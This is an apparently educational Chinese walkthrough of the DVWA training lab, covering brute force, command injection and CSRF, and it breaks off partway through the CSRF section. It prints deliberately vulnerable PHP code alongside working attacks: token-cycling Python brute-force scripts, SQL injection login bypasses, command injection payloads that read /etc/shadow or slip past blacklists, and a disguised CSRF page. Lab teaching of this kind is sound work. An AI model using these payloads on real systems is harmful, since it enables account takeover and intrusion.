# [dvwa](http://www.dvwa.co.uk/)

## 前言
工具一下，exp 一连，shell 就有了，这谁都能学会，但在自己挖洞的过程中，基础的东西就很重要了，我觉得 dvwa 靶机的真正价值是带新人入门，将 web 各个方面都接触一些，这样有了开始，之后就有方向了。

---

## 实验环境
- phpstudy（php5.2珍藏版）：http://phpstudy.php.cn/wenda/404.html
(可以测试%00 截断)
- Microsoft Windows 10 企业版 LTSC - 10.0.17763
- dvwa Version 1.10 *Development* (Release date: 2015-10-08)
- VMware® Workstation 15 Pro - 15.0.0 build-10134415
- kali 4.19.0-kali3-amd64

---

## Reference
- [新手指南：DVWA-1.9全级别教程之Brute Force](https://www.freebuf.com/articles/web/116437.html)
- [新手指南：DVWA-1.9全级别教程之Command Injection](https://www.freebuf.com/articles/web/116714.html)
- [新手指南：DVWA-1.9全级别教程之CSRF](https://www.freebuf.com/articles/web/118352.html)
- [新手指南：DVWA-1.9全级别教程之File Inclusion](https://www.freebuf.com/articles/web/119150.html)
- [新手指南：DVWA-1.9全级别教程之File Upload](https://www.freebuf.com/articles/web/119467.html)
- [新手指南：DVWA-1.9全级别教程之Insecure CAPTCHA](https://www.freebuf.com/articles/web/119692.html)
- [新手指南：DVWA-1.9全级别教程之SQL Injection](https://www.freebuf.com/articles/web/120747.html)
- [新手指南：DVWA-1.9全级别教程之SQL Injection(Blind)](https://www.freebuf.com/articles/web/120985.html)


---

## 搭建/使用
**windows**

推荐用 [phpstudy](http://phpstudy.php.cn/) 进行快速搭建


修改 config.inc.php,配置数据库密码 `$_DVWA[ 'db_password' ] = 'root';`

>登录 Login URL: http://127.0.0.1/dvwa/login.php

>账号密码: admin/password

**难度**


---

## Brute Force
Brute Force，即暴力（破解），是指黑客利用密码字典，使用穷举法猜解出用户口令

### Low
**服务器端核心代码**
```php
<?php

if( isset( $_GET[ 'Login' ] ) ) {
	// Get username
	$user = $_GET[ 'username' ];

	// Get password
	$pass = $_GET[ 'password' ];
	$pass = md5( $pass );

	// Check the database
	$query  = "SELECT * FROM `users` WHERE user = '$user' AND password = '$pass';";
	$result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

	if( $result && mysqli_num_rows( $result ) == 1 ) {
		// Get users details
		$row    = mysqli_fetch_assoc( $result );
		$avatar = $row["avatar"];

		// Login successful
		$html .= "<p>Welcome to the password protected area {$user}</p>";
		$html .= "";
	}
	else {
		// Login failed
		$html .= "<pre><br />Username and/or password incorrect.</pre>";
	}

	((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

?>
```
可以看到，服务器只是验证了参数 Login 是否被设置（isset 函数在 php 中用来检测变量是否设置，该函数返回的是布尔类型的值，即 true/false），没有任何的防爆破机制，且对参数 username、password 没有做任何过滤，存在明显的 sql 注入漏洞。

**利用爆破burpsuite**

0. burp的安装过程略
1. 抓包
2. ctrl+I将包复制到intruder模块，因为要对password参数进行爆破，所以在password参数的内容两边加$


3. 选中Payloads，载入字典，点击Start attack进行爆破


4. 最后，尝试在爆破结果中找到正确的密码，可以看到password的响应包长度（length）“与众不同”，可推测password为正确密码，手工验证登陆成功。

**手工sql注入**

1. Username : admin' or '1'='1 Password :（空）,此时sql语句如下图:


2. Username :admin' # Password :（空）,此时sql语句如下图:


### Medium
**服务器端核心代码**
```php
<?php

if( isset( $_GET[ 'Login' ] ) ) {
	// Sanitise username input
	$user = $_GET[ 'username' ];
	$user = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $user ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

	// Sanitise password input
	$pass = $_GET[ 'password' ];
	$pass = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
	$pass = md5( $pass );

	// Check the database
	$query  = "SELECT * FROM `users` WHERE user = '$user' AND password = '$pass';";
	$result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

	if( $result && mysqli_num_rows( $result ) == 1 ) {
		// Get users details
		$row    = mysqli_fetch_assoc( $result );
		$avatar = $row["avatar"];

		// Login successful
		$html .= "<p>Welcome to the password protected area {$user}</p>";
		$html .= "";
	}
	else {
		// Login failed
		sleep( 2 );
		$html .= "<pre><br />Username and/or password incorrect.</pre>";
	}

	((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

?>
```
相比 Low 级别的代码，Medium 级别的代码主要增加了 mysql_real_escape_string 函数，这个函数会对字符串中的特殊符号（x00，n，r，，’，”，x1a）进行转义，基本上能够抵御 sql 注入攻击，但 MySQL5.5.37 以下版本如果设置编码为 GBK，能够构造编码绕过 mysql_real_escape_string 对单引号的转义（因实验环境的 MySQL 版本较新，所以并未做相应验证）；同时，$pass 做了 MD5 校验，杜绝了通过参数 password 进行 sql 注入的可能性。但是，依然没有加入有效的防爆破机制（sleep(2)实在算不上）。

具体的 mysql_real_escape_string 函数绕过问题详见
- [PHP防SQL注入不要再用addslashes和mysql_real_escape_string了](https://web.archive.org/web/20171107192133/https://blog.csdn.net/hornedreaper1988/article/details/43520257)
- [PHP字符编码绕过漏洞总结](http://www.cnblogs.com/Safe3/archive/2008/08/22/1274095.html)
- [mysql_real_escape_string() versus Prepared Statements](https://ilia.ws/archives/103-mysql_real_escape_string-versus-Prepared-Statements.html)

虽然sql注入不再有效，但依然可以使用 Burpsuite 进行爆破，与 Low 级别的爆破方法基本一样，这里就不赘述了。

### High
**服务器端核心代码**
```php
<?php

if( isset( $_GET[ 'Login' ] ) ) {
	// Check Anti-CSRF token
	checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

	// Sanitise username input
	$user = $_GET[ 'username' ];
	$user = stripslashes( $user );
	$user = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $user ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

	// Sanitise password input
	$pass = $_GET[ 'password' ];
	$pass = stripslashes( $pass );
	$pass = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
	$pass = md5( $pass );

	// Check database
	$query  = "SELECT * FROM `users` WHERE user = '$user' AND password = '$pass';";
	$result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

	if( $result && mysqli_num_rows( $result ) == 1 ) {
		// Get users details
		$row    = mysqli_fetch_assoc( $result );
		$avatar = $row["avatar"];

		// Login successful
		$html .= "<p>Welcome to the password protected area {$user}</p>";
		$html .= "";
	}
	else {
		// Login failed
		sleep( rand( 0, 3 ) );
		$html .= "<pre><br />Username and/or password incorrect.</pre>";
	}

	((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

// Generate Anti-CSRF token
generateSessionToken();

?>
```
High级别的代码加入了 Token，可以抵御 CSRF 攻击，同时也增加了爆破的难度，通过抓包，可以看到，登录验证时提交了四个参数：username、password、Login 以及 user_token。

每次服务器返回的登陆页面中都会包含一个随机的 user_token 的值，用户每次登录时都要将 user_token 一起提交。服务器收到请求后，会优先做 token 的检查，再进行 sql 查询。


同时，High 级别的代码中，使用了 stripslashes（去除字符串中的反斜线字符,如果有两个连续的反斜线,则只去掉一个）、 mysql_real_escape_string 对参数 username、password 进行过滤、转义，进一步抵御 sql 注入。

**使用python脚本爆破**

`适用于老版本dvwa环境`
```python
from bs4 import BeautifulSoup
import urllib2
header={
        'Host': '<改成你自己机器IP!!!>',
		'Cache-Control': 'max-age=0',
		'If-None-Match': "307-52156c6a290c0",
		'If-Modified-Since': 'Mon, 05 Oct 2015 07:51:07 GMT',
		'User-Agent': 'Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/53.0.2785.116 Safari/537.36',
		'Accept': '*/*',
		'Referer': 'http://<改成你自己机器IP!!!>/dvwa/vulnerabilities/brute/index.php',
		'Accept-Encoding': 'gzip, deflate, sdch',
		'Accept-Language': 'zh-CN,zh;q=0.8',
		'Cookie': 'security=high; PHPSESSID=5re92j36t4f2k1gvnqdf958bi2'
        }
requrl = "http://<改成你自己机器IP!!!>/dvwa/vulnerabilities/brute/"

def get_token(requrl,header):
	req = urllib2.Request(url=requrl,headers=header)
	response = urllib2.urlopen(req)
	print response.getcode(),
	the_page = response.read()
	print len(the_page)
	soup = BeautifulSoup(the_page,"html.parser")
	user_token = soup.form.input.input.input.input["value"] # get the user_token
	return user_token

user_token = get_token(requrl,header)
i=0
for line in open("rkolin.txt"):
	requrl = "http://<改成你自己机器IP!!!>/dvwa/vulnerabilities/brute/"+"?username=admin&password="+line.strip()+"&Login=Login&user_token="+user_token
	i = i+1
	print i,'admin',line.strip(),
	user_token = get_token(requrl,header)
	if (i == 10):
		break
```
get_token 的功能是通过 python 的 BeautifulSoup 库从 html 页面中抓取 user_token 的值，为了方便展示，这里设置只尝试 10 次。

注:在最新版本中，由于 hard 难度的源代码修改，无法直接使用 BeautifulSoup 匹配 user_token 值，在此给出我略微修改的版本
```python
import requests, re
from bs4 import BeautifulSoup

requrl='http://<改成你自己机器IP!!!>/dvwa/vulnerabilities/brute/'
header={
        'Host': '<改成你自己机器IP!!!>',
		'Cache-Control': 'max-age=0',
		'If-None-Match': "307-52156c6a290c0",
		'If-Modified-Since': 'Mon, 05 Oct 2015 07:51:07 GMT',
		'User-Agent': 'Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/53.0.2785.116 Safari/537.36',
		'Accept': '*/*',
		'Referer': 'http://192.168.153.130/dvwa/vulnerabilities/brute/index.php',
		'Accept-Encoding': 'gzip, deflate, sdch',
		'Accept-Language': 'zh-CN,zh;q=0.8',
		'Cookie': 'security=high; PHPSESSID=vlalfd2e2rbtptnd8pqqn646g4'
        }

def get_token(requrl,header):
    req = requests.get(url=requrl,headers=header)
    page = req.text
    soup = BeautifulSoup(page,"html.parser")
    value = soup.select("input[name=user_token]")

    key=str(value)
    p1 = r"(?<=value=\").+?(?=\")"
    pattern1 = re.compile(p1)
    matcher1 = re.search(pattern1,key)

    user_token= matcher1.group(0)
    a=str(user_token)
    print (req.status_code,len(page))
    return a

user_token = get_token(requrl,header)
i=0

for key in open("password.txt"):

    requrl = "http://<改成你自己机器IP!!!>/dvwa/vulnerabilities/brute/"+"?username=admin&password="+key.strip()+"&Login=Login&user_token="+user_token

    i = i+1
    print (i,'admin',key.strip(), end=" " )
    user_token = get_token(requrl,header)
    if (i == 100):
        break
```


注: 使用 urllib3 的 ProxyManager 可以让 python 产生的 http 请求流量通过 burpsutie 的 proxy

```python
import urllib3.request

    proxy = urllib3.ProxyManager('http://127.0.0.1:8080', headers=header)
    req = proxy.request('POST', url=requrl)
```


### Impossible
**服务器端核心代码**
```php
<?php

if( isset( $_POST[ 'Login' ] ) && isset ($_POST['username']) && isset ($_POST['password']) ) {
	// Check Anti-CSRF token
	checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

	// Sanitise username input
	$user = $_POST[ 'username' ];
	$user = stripslashes( $user );
	$user = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $user ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

	// Sanitise password input
	$pass = $_POST[ 'password' ];
	$pass = stripslashes( $pass );
	$pass = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
	$pass = md5( $pass );

	// Default values
	$total_failed_login = 3;
	$lockout_time       = 15;
	$account_locked     = false;

	// Check the database (Check user information)
	$data = $db->prepare( 'SELECT failed_login, last_login FROM users WHERE user = (:user) LIMIT 1;' );
	$data->bindParam( ':user', $user, PDO::PARAM_STR );
	$data->execute();
	$row = $data->fetch();

	// Check to see if the user has been locked out.
	if( ( $data->rowCount() == 1 ) && ( $row[ 'failed_login' ] >= $total_failed_login ) )  {
		// User locked out.  Note, using this method would allow for user enumeration!
		//$html .= "<pre><br />This account has been locked due to too many incorrect logins.</pre>";

		// Calculate when the user would be allowed to login again
		$last_login = strtotime( $row[ 'last_login' ] );
		$timeout    = $last_login + ($lockout_time * 60);
		$timenow    = time();

		/*
		print "The last login was: " . date ("h:i:s", $last_login) . "<br />";
		print "The timenow is: " . date ("h:i:s", $timenow) . "<br />";
		print "The timeout is: " . date ("h:i:s", $timeout) . "<br />";
		*/

		// Check to see if enough time has passed, if it hasn't locked the account
		if( $timenow < $timeout ) {
			$account_locked = true;
			// print "The account is locked<br />";
		}
	}

	// Check the database (if username matches the password)
	$data = $db->prepare( 'SELECT * FROM users WHERE user = (:user) AND password = (:password) LIMIT 1;' );
	$data->bindParam( ':user', $user, PDO::PARAM_STR);
	$data->bindParam( ':password', $pass, PDO::PARAM_STR );
	$data->execute();
	$row = $data->fetch();

	// If its a valid login...
	if( ( $data->rowCount() == 1 ) && ( $account_locked == false ) ) {
		// Get users details
		$avatar       = $row[ 'avatar' ];
		$failed_login = $row[ 'failed_login' ];
		$last_login   = $row[ 'last_login' ];

		// Login successful
		$html .= "<p>Welcome to the password protected area <em>{$user}</em></p>";
		$html .= "";

		// Had the account been locked out since last login?
		if( $failed_login >= $total_failed_login ) {
			$html .= "<p><em>Warning</em>: Someone might of been brute forcing your account.</p>";
			$html .= "<p>Number of login attempts: <em>{$failed_login}</em>.<br />Last login attempt was at: <em>${last_login}</em>.</p>";
		}

		// Reset bad login count
		$data = $db->prepare( 'UPDATE users SET failed_login = "0" WHERE user = (:user) LIMIT 1;' );
		$data->bindParam( ':user', $user, PDO::PARAM_STR );
		$data->execute();
	} else {
		// Login failed
		sleep( rand( 2, 4 ) );

		// Give the user some feedback
		$html .= "<pre><br />Username and/or password incorrect.<br /><br/>Alternative, the account has been locked because of too many failed logins.<br />If this is the case, <em>please try again in {$lockout_time} minutes</em>.</pre>";

		// Update bad login count
		$data = $db->prepare( 'UPDATE users SET failed_login = (failed_login + 1) WHERE user = (:user) LIMIT 1;' );
		$data->bindParam( ':user', $user, PDO::PARAM_STR );
		$data->execute();
	}

	// Set the last login time
	$data = $db->prepare( 'UPDATE users SET last_login = now() WHERE user = (:user) LIMIT 1;' );
	$data->bindParam( ':user', $user, PDO::PARAM_STR );
	$data->execute();
}

// Generate Anti-CSRF token
generateSessionToken();

?>
```
可以看到 Impossible 级别的代码加入了可靠的防爆破机制，当检测到频繁的错误登录后，系统会将账户锁定，爆破也就无法继续。

同时采用了更为安全的 PDO（PHP Data Object）机制防御 sql 注入，这是因为不能使用 PDO 扩展本身执行任何数据库操作，而 sql 注入的关键就是通过破坏 sql 语句结构执行恶意的 sql 命令。

关于PDO
- [PHP学习笔记之PDO](https://www.cnblogs.com/pinocchioatbeijing/archive/2012/03/20/2407869.html)

---

## Command Injection
Command Injection，即命令注入，是指通过提交恶意构造的参数破坏命令语句结构，从而达到执行恶意命令的目的。PHP命令注入攻击漏洞是PHP应用程序中常见的脚本漏洞之一，国内著名的Web应用程序Discuz!、DedeCMS等都曾经存在过该类型漏洞。

### Low
**服务器端核心代码**
```php
<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
	// Get input
	$target = $_REQUEST[ 'ip' ];

	// Determine OS and execute the ping command.
	if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
		// Windows
		$cmd = shell_exec( 'ping  ' . $target );
	}
	else {
		// *nix
		$cmd = shell_exec( 'ping  -c 4 ' . $target );
	}

	// Feedback for the end user
	$html .= "<pre>{$cmd}</pre>";
}

?>
```

**相关函数介绍**
- **stristr(string,search,before_search)**

	stristr函数搜索字符串在另一字符串中的第一次出现，返回字符串的剩余部分（从匹配点），如果未找到所搜索的字符串，则返回 FALSE。参数string规定被搜索的字符串，参数search规定要搜索的字符串（如果该参数是数字，则搜索匹配该数字对应的 ASCII 值的字符），可选参数before_true为布尔型，默认为“false” ，如果设置为 “true”，函数将返回 search 参数第一次出现之前的字符串部分。

- **php_uname(mode)**

	这个函数会返回运行php的操作系统的相关描述，参数mode可取值”a” （此为默认，包含序列”s n r v m”里的所有模式），”s ”（返回操作系统名称），”n”（返回主机名），” r”（返回版本名称），”v”（返回版本信息）， ”m”（返回机器类型）。

	可以看到，服务器通过判断操作系统执行不同ping命令，但是对ip参数并未做任何的过滤，导致了严重的命令注入漏洞。

**漏洞利用**

windows 和 linux 系统都可以用 && 来执行多条命令

`127.0.0.1 && net user`

Linux 下输入 `127.0.0.1 && cat /etc/shadow` 甚至可以读取 shadow 文件，可见危害之大。

### Medium
**服务器端核心代码**
```php
<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
	// Get input
	$target = $_REQUEST[ 'ip' ];

	// Set blacklist
	$substitutions = array(
		'&&' => '',
		';'  => '',
	);

	// Remove any of the charactars in the array (blacklist).
	$target = str_replace( array_keys( $substitutions ), $substitutions, $target );

	// Determine OS and execute the ping command.
	if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
		// Windows
		$cmd = shell_exec( 'ping  ' . $target );
	}
	else {
		// *nix
		$cmd = shell_exec( 'ping  -c 4 ' . $target );
	}

	// Feedback for the end user
	$html .= "<pre>{$cmd}</pre>";
}

?>
```
可以看到，相比Low级别的代码，服务器端对ip参数做了一定过滤，即把”&&” 、”;”删除，本质上采用的是黑名单机制，因此依旧存在安全问题。

**漏洞利用**

`127.0.0.1 & net user`

因为被过滤的只有”&&”与” ;”，所以”&”不会受影响。

这里需要注意的是”&&”与” &”的区别：

`Command 1 && Command 2`
先执行 Command 1，执行成功后执行 Command 2，否则不执行 Command 2
`Command 1 & Command 2`
先执行 Command 1，不管是否成功，都会执行 Command 2

**漏洞利用2**

由于使用的是 str_replace 把”&&” 、”;”替换为空字符，因此可以采用以下方式绕过：

`127.0.0.1 &;& ipconfig`

这是因为 `127.0.0.1&;&ipconfig` 中的 `;` 会被替换为空字符，这样一来就变成了 `127.0.0.1&& ipconfig` ，会成功执行。

### High
**服务器端核心代码**
```php
<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
	// Get input
	$target = trim($_REQUEST[ 'ip' ]);

	// Set blacklist
	$substitutions = array(
		'&'  => '',
		';'  => '',
		'| ' => '',
		'-'  => '',
		'$'  => '',
		'('  => '',
		')'  => '',
		'`'  => '',
		'||' => '',
	);

	// Remove any of the charactars in the array (blacklist).
	$target = str_replace( array_keys( $substitutions ), $substitutions, $target );

	// Determine OS and execute the ping command.
	if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
		// Windows
		$cmd = shell_exec( 'ping  ' . $target );
	}
	else {
		// *nix
		$cmd = shell_exec( 'ping  -c 4 ' . $target );
	}

	// Feedback for the end user
	$html .= "<pre>{$cmd}</pre>";
}

?>
```
相比 Medium 级别的代码，High 级别的代码进一步完善了黑名单，但由于黑名单机制的局限性，我们依然可以绕过。

**漏洞利用**

黑名单看似过滤了所有的非法字符，但仔细观察到是把`| `（注意这里|后有一个空格）替换为空字符，于是 ”|”成了“漏网之鱼”。

`127.0.0.1|net user`
Command 1 | Command 2

`|`是管道符，表示将 Command 1 的输出作为 Command 2 的输入，并且只打印 Command 2 执行的结果。

### Impossible
**服务器端核心代码**
```php
<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
	// Check Anti-CSRF token
	checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

	// Get input
	$target = $_REQUEST[ 'ip' ];
	$target = stripslashes( $target );

	// Split the IP into 4 octects
	$octet = explode( ".", $target );

	// Check IF each octet is an integer
	if( ( is_numeric( $octet[0] ) ) && ( is_numeric( $octet[1] ) ) && ( is_numeric( $octet[2] ) ) && ( is_numeric( $octet[3] ) ) && ( sizeof( $octet ) == 4 ) ) {
		// If all 4 octets are int's put the IP back together.
		$target = $octet[0] . '.' . $octet[1] . '.' . $octet[2] . '.' . $octet[3];

		// Determine OS and execute the ping command.
		if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
			// Windows
			$cmd = shell_exec( 'ping  ' . $target );
		}
		else {
			// *nix
			$cmd = shell_exec( 'ping  -c 4 ' . $target );
		}

		// Feedback for the end user
		$html .= "<pre>{$cmd}</pre>";
	}
	else {
		// Ops. Let the user name theres a mistake
		$html .= '<pre>ERROR: You have entered an invalid IP.</pre>';
	}
}

// Generate Anti-CSRF token
generateSessionToken();

?>
```

**相关函数介绍**
- **stripslashes(string)**

	stripslashes 函数会删除字符串 string 中的反斜杠，返回已剥离反斜杠的字符串。

- **explode(separator,string,limit)**

	把字符串打散为数组，返回字符串的数组。参数 separator 规定在哪里分割字符串，参数 string 是要分割的字符串，可选参数 limit 规定所返回的数组元素的数目。

- **is_numeric(string)**

	检测 string 是否为数字或数字字符串，如果是返回 TRUE，否则返回 FALSE。

	可以看到，Impossible 级别的代码加入了 Anti-CSRF token，同时对参数 ip 进行了严格的限制，只有诸如“数字.数字.数字.数字”的输入才会被接收执行，因此不存在命令注入漏洞。

## CSRF
CSRF，全称Cross-site request forgery，翻译过来就是跨站请求伪造，是指利用受害者尚未失效的身份认证信息（cookie、会话等），诱骗其点击恶意链接或者访问包含攻击代码的页面，在受害人不知情的情况下以受害者的身份向（身份认证信息所对应的）服务器发送请求，从而完成非法操作（如转账、改密等）。CSRF与XSS最大的区别就在于，CSRF并没有盗取cookie而是直接利用。在2013年发布的新版OWASP Top 10中，CSRF排名第8。

### Low
**服务器端核心代码**
```php
<?php

if( isset( $_GET[ 'Change' ] ) ) {
	// Get input
	$pass_new  = $_GET[ 'password_new' ];
	$pass_conf = $_GET[ 'password_conf' ];

	// Do the passwords match?
	if( $pass_new == $pass_conf ) {
		// They do!
		$pass_new = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_new ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
		$pass_new = md5( $pass_new );

		// Update the database
		$insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '" . dvwaCurrentUser() . "';";
		$result = mysqli_query($GLOBALS["___mysqli_ston"],  $insert ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

		// Feedback for the user
		$html .= "<pre>Password Changed.</pre>";
	}
	else {
		// Issue with passwords matching
		$html .= "<pre>Passwords did not match.</pre>";
	}

	((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

?>
```
可以看到，服务器收到修改密码的请求后，会检查参数 `password_new` 与 `password_conf` 是否相同，如果相同，就会修改密码，并没有任何的防 CSRF 机制（当然服务器对请求的发送者是做了身份验证的，是检查的 cookie，只是这里的代码没有体现= =）。

**漏洞利用**

`http://<IP地址!!!>/dvwa/vulnerabilities/csrf/?password_new=password&password_conf=password&Change=Change#`

当受害者点击了这个链接，他的密码就会被改成 password（这种攻击显得有些拙劣，链接一眼就能看出来是改密码的，而且受害者点了链接之后看到这个页面就会知道自己的密码被篡改了）

需要注意的是，CSRF 最关键的是利用受害者的 cookie 向服务器发送伪造请求，所以如果受害者之前用 A 浏览器登录的这个系统，而用 B 浏览器点击这个链接，攻击是不会触发的，因为 B 浏览器并不能利用 Chrome 浏览器的 cookie，所以会自动跳转到登录界面。

有人会说，这个链接也太明显了吧，不会有人点的，没错，所以真正攻击场景下，我们需要对链接做一些处理。

**漏洞利用2**

我们可以使用短链接来隐藏 URL（点击短链接，会自动跳转到真实网站），自寻搜索"短网址工具 "

**漏洞利用3**

可以构造攻击页面，现实攻击场景下，这种方法需要事先在公网上传一个攻击页面，诱骗受害者去访问，真正能够在受害者不知情的情况下完成 CSRF 攻击。这里为了方便演示，就在本地写一个 test.html，下面是具体代码。

```html
/dvwa/vulnerabilities/csrf/?password_new=hack&password_conf=hack&Change=Change#" border="0" style="display:none;"/>

<h1>404<h1>

<h2>file not found.<h2>
```


### Medium
**服务器端核心代码**
```php
<?php

if( isset( $_GET[ 'Change' ] ) ) {
	// Checks to see where the request came from
	if( stripos( $_SERVER[ 'HTTP_REFERER' ] ,$_SERVER[ 'SERVER_NAME' ]) !== false ) {
		// Get input
		$pass_new  = $_GET[ 'password_new' ];
		$pass_conf = $_GET[ 'password_conf' ];

		// Do the passwords match?
		if( $pass_new == $pass_conf ) {
			// They do!
			$pass_new = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_new ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
			$pass_new = md5( $pass_new );

			// Update the database
			$insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '" . dvwaCurrentUser() . "';";
			$result = mysqli_query($GLOBALS["___mysqli_ston"],  $insert ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

			// Feedback for the user
			$html .= "<pre>Password Changed.</pre>";
		}
		else {
			// Issue with passwords matching
			$html .= "<pre>Passwords did not match.</pre>";
		}
	}
	else {
		// Didn't come from a trusted source
		$html .= "<pre>That request didn't look correct.</pre>";
	}

	((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

?>
```

**相关函数说明**
- **int eregi(string pattern, string string)**

	检查 string 中是否含有 pattern（不区分大小写），如果有返回 True，反之 False。

可以看到，Medium 级别的代码检查了保留变量 HTTP_REFERER（http 包头的 Referer 参数的值，表示来源地址）中是否包含 SERVER_NAME（http 包头的 Host 参数，及要访问的主机名，这里是 dvwa靶机的IP地址），希望通过这种机制抵御 CSRF 攻击。

**漏洞利用**

过滤规则是 http 包头的 Referer 参数的值中必须包含主机名（这里是 dvwa 靶机的 IP 地址）

我们可以将攻击页面命名为 <dvwa靶机的IP地址>.html 就可以绕过了



### High
**服务器端核心代码**
```php
<?php

if( isset( $_GET[ 'Change' ] ) ) {
	// Check Anti-CSRF token
	checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

	// Get input
	$pass_new  = $_GET[ 'password_new' ];
	$pass_conf = $_GET[ 'password_conf' ];

	// Do the passwords match?
	if( $pass_new == $pass_conf ) {
		// They do!
		$pass_new = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_new ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
		$pass_new = md5( $pass_new );

		// Update the database
		$insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '" . dvwaCurrentUser() . "';";
